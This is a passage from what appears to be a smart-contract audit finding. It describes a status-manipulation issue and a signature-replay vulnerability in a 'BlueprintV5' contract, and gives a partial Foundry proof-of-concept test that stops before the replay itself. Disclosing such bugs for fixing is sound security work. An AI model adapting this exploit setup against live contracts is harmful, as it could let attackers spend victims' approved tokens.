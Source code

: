 3. **Status Manipulation**: The function resets deployment status if it's in the `GeneratedProof` state, allowing attackers to manipulate the deployment lifecycle:

```solidity
if (requestDeploymentStatus[requestID].status == Status.GeneratedProof) {
    requestDeploymentStatus[requestID].status = Status.Pickup;
}
```

### PoC
Add this in BlueprintV5.t.sol
```solidity
function test_signatureReplayVulnerability() public {
        // Create a second mock token to demonstrate vulnerability with multiple tokens
        MockERC20 secondMockToken = new MockERC20();
        
        // Add both payment addresses
        blueprint.addPaymentAddress(address(mockToken));
        blueprint.addPaymentAddress(address(secondMockToken));
        
        // Set token costs for updating agent
        uint256 updateCost = 10 * 10 ** 18;
        blueprint.setUpdateCreateAgentTokenCost(address(mockToken), updateCost);
        blueprint.setUpdateCreateAgentTokenCost(address(secondMockToken), updateCost);
        
        // Set up the victim account
        uint256 victimPrivateKey = 0xB0B;
        address victimAddress = vm.addr(victimPrivateKey);
        
        // Mint tokens to the victim
        mockToken.mint(victimAddress, updateCost * 3);
        secondMockToken.mint(victimAddress, updateCost * 3);
        
        // Create initial agent with zero cost
        blueprint.setCreateAgentTokenCost(address(mockToken), 0);
        string memory base64Proposal = "initial proposal";
        string memory serverURL = "http://example.com";
        
        // Use a completely different projectId that hasn't been used in any other test
        bytes32 testProjectId = bytes32(0x2723a34e38d0f0aa09ce626f00aa23c0464b52c75516cf3203cc4c9afeaf2983);
        
        // Create agent as the victim
        vm.prank(victimAddress);
        bytes32 requestId = blueprint.createAgentWithToken(
            testProjectId, 
            base64Proposal, 
            workerAddress, 
            serverURL, 
            address(mockToken)
        );
        
        // New config for update
        string memory updatedConfig = "updated proposal";
        
        // Victim signs a message to update the config
        bytes32 digest = blueprint.getRequestDeploymentDigest(testProjectId, updatedConfig, "app.crestal.network");
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(victimPrivateKey, digest);
        bytes memory signature = abi.encodePacked(r, s, v);
        
        // Victim approves tokens to be spent (as would happen in normal usage)
        vm.prank(victimAddress);
        mockToken.approve(address(blueprint), updateCost * 3);
```